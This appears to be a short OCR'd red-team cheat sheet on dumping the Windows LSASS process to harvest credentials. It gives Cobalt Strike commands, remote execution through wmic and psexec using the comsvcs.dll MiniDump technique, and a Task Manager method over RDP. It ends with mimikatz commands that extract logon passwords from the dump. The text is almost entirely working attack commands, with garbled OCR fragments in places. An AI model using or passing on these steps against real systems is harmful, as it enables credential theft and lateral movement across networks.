 # LSASS-DUMP
LSASS:
method via cobalt: (*** special thanks to @dtob1804 )
!* 1) getsystem
2) shell rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\ProgramData\lsass.dmp full (the pid is from lsass)
(remove on remote car) coba_wmic:
shell wmic /node:[target] process call create "cmd /c rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\ProgramData\lsass.dmp full"
remote-exec psexec [target] cmd /c rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\ProgramData\lsass.dmp full
=======
method via RDP:
open taskmgr => PKM po lsass process => create Dump file.  \\ Next, download the file to your computer,

=======
how to dump it:
open mimic and then:
privilege::debug
sekurlsa::minidump A:\3.WORK\BL-ws20\lsass.DMP (replace the path to our file)
log
sekurlsa::logonpasswords

CREDITS: Learners Room @dtob1804
